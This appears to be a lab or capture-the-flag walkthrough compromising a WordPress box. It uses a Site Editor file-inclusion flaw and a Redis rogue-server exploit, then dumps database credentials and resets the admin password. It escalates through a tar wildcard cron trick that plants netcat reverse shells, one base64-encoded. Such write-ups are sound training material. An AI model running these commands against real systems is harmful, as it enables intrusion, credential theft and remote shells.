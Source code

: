 ### wp-scan
`wpscan --url http://$IP/ --enumerate` <- Enum mode won't find any plugins.

`wpscan --url http://$IP/ --api-token <SNIP>`

```bash
[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.200.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.200.166/wp-content/plugins/site-editor/readme.txt
```

* http://192.168.200.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
* http://192.168.200.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis
* .conf 
* /redis.conf <- It works

https://redis.io/docs/manual/config/

```creds
requirepass "hello world"

Ready4Redis?
```

```bash
redis-cli -h $IP -a Ready4Redis?
```

* https://github.com/A1vinSmith/redis-rogue-getshell
* https://github.com/A1vinSmith/redis-rogue-server

```bash
python3 redis-rogue-server.py --rhost 192.168.200.166 --rport 6379 --lhost 192.168.49.200 --lport 6379 --auth "Ready4Redis?"
```

### Foothold
```bash
cat /etc/passwd | grep -i 'bash'
root:x:0:0:root:/root:/bin/bash
alice:x:1000:1000::/home/alice:/bin/bash

find / -user alice 2>/dev/null

grep --color=auto -rnw '/var/www/html/' -ie "PASSWORD=" --color=always 2>/dev/null
grep --color=auto -rnw '/var/www/html/' -ie "PASSWORD" --color=always 2>/dev/null

find / -user alice -not -path "/var/www/html/*" 2>/dev/null
```

wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'karl' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Wordpress1234' );
```

```MariaDB [wordpress]> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email    | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com | http://localhost | 2021-07-11 16:35:27 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
```

### Lateral Movement
Update the password for that.
```
UPDATE wp_users SET user_pass=MD5('alvin') WHERE ID = 1;
```

admin:alvin -> wordpress 404 to get in.

### Root 
Obviously `tar` wildcard with `/etc/crontab`

```bash port 4242
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.200 4242 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch /var/www/html/--checkpoint=1
```

```bash port 80
echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTkyLjE2OC40OS4yMDAgODAgPi90bXAvZg== | base64 -d > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Both worked.
